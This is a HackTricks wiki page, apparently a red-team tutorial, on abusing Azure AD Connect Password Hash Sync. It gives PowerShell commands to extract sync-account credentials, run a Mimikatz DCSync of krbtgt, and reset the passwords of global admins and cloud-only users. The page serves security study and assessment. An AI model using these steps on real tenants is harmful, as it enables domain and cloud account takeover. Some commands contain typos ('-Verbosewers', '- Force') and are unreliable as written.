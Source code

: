 # Az - PHS - Password Hash Sync

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** is one of the sign-in methods used to accomplish hybrid identity. **Azure AD Connect** synchronizes a hash, of the hash, of a user's password from an on-premises Active Directory instance to a cloud-based Azure AD instance.

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

It's the **most common method** used by companies to synchronize an on-prem AD with Azure AD.

All **users** and a **hash of the password hashes** are syncronized from the on-prem to Azure AD. However, **clear-text passwords** or the **original** **hashes** aren't sent to Azure AD.\
Moreover, **Built-in** security groups (like domain admins...) are **not synced** to Azure AD.

The **hashes syncronization** occurs every **2 minutes**. However, by default, **password expiry** and **account** **expiry** are **not sync** in Azure AD. So, a user whose **on-prem password is expired** (not changed) can continue to **access Azure resources** using the old password.

When an on-prem user wants to access an Azure resource, the **authentication takes place on Azure AD**.

**PHS** is required for features like **Identity Protection** and AAD Domain Services.

## Pivoting

When PHS is configured some **privileged accounts** are automatically **created**:

* The account **`MSOL_<installationID>`** is automatically created in on-prem AD. This account is given a **Directory Synchronization Accounts** role (see [documentation](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) which means that it has **replication (DCSync) permissions in the on-prem AD**.
* An account **`Sync_<name of on-prem ADConnect Server>_installationID`** is created in Azure AD. This account can **reset password of ANY user** (synced or cloud only) in Azure AD.

Passwords of the two previous privileged accounts are **stored in a SQL server** on the server where **Azure AD Connect is installed.** Admins can extract the passwords of those privileged users in clear-text.\
The database is located in `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

It's possible to extract the configuration from one of the tables, being one encrypted:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

The **encrypted configuration** is encrypted with **DPAPI** and it contains the **passwords of the `MSOL_*`** user in on-prem AD and the password of **Sync\_\*** in AzureAD. Therefore, compromising these it's possible to privesc to the AD and to AzureAD.

You can find a [full overview of how these credentials are stored and decrypted in this talk](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

If the **server where Azure AD connect is installed** is domain joined (recommended in the docs), it's possible to find it with:

```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### Abusing MSOL\_\*

```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

{% hint style="danger" %}
You can also use [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) to obtain these credentials.
{% endhint %}

### Abusing Sync\_\*

Compromising the **`Sync_*`** account it's possible to **reset the password** of any user (including Global Administrators)

```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```

It's also possible to **modify the passwords of only cloud** users (even if that's unexpected)

```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

It's also possible to dump the password of this user.

{% hint style="danger" %}
Another option would be to **assign privileged permissions to a service principal**, which the **Sync** user has **permissions** to do, and then **access that service principal** as a way of privesc.
{% endhint %}

### Seamless SSO

It's possible to use Seamless SSO with PHS, which is vulnerable to other abuses. Check it in:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## References

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
